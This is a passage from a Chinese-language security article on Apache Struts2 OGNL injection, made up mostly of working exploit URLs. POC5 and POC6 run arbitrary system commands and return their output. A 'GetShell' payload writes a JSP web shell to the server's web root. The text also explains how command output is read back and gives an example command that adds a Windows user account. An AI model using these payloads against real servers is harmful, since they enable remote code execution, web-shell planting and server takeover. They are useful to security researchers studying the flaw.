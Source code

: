 POC5：

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result),%23response.close()}&cmd=cmd%20/c%20set

```

POC6:

```
http://localhost/struts2-blank/example/HelloWorld.action?redirect:${%23a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{'netstat','-an'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b),%23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e),%23matt%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()}

```

其实在Java里面要去执行一个命令的方式都是一样的，简单的静态调用方式

```
java.lang.Runtime.getRuntime().exec("net user selina 123 /add");

```

就可以执行任意命令了。Exec执行后返回的类型是java.lang.Process。Process是一个抽象类，`final class ProcessImpl extends Process`也是Process的具体实现。而命令执行后返回的Process可以通过

```
public OutputStream getOutputStream()
public InputStream getInputStream()

```

直接输入输出流，拿到InputStream之后直接读取就能够获取到命令执行的结果了。而在Ognl里面不能够用正常的方式去读取流，而多是用DataInputStream的readFully或BufferedReader的read方法全部读取或者按byte读取的。因为可能会读取到半个中文字符，所以可能会存在乱码问题，自定义每次要读取的大小就可以了。POC当中的/c 不是必须的，执行dir之类的命令可以加上。

```
Process java.lang.Runtime.exec(String command) throws IOException

```

![2013072423412230696.png](http://drops.javaweb.org/uploads/images/49916ccd47d80de8473fc9711b4382c6f37306b6.jpg)

![2013072423413593661.png](http://drops.javaweb.org/uploads/images/e884515c09d83633d23da048071533dec8852b79.jpg)

#### **GetShell POC：**

poc1:

```
http://127.0.0.1/Struts2/test.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean(%22false%22)))&(i1)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(i12)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i13)(('\43xman.getWriter().println(\43req.getServletContext().getRealPath(%22\u005c%22))')(d))&(i2)(('\43fos\75new\40java.io.FileOutputStream(new\40java.lang.StringBuilder(\43req.getRealPath(%22\u005c%22)).append(@java.io.File@separator).append(%22css3.jsp%22).toString())')(d))&(i3)(('\43fos.write(\43req.getParameter(%22p%22).getBytes())')(d))&(i4)(('\43fos.close()')(d))&p=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%22))).write(request.getParameter(%22t%22).getBytes())%3b%25%3e

```
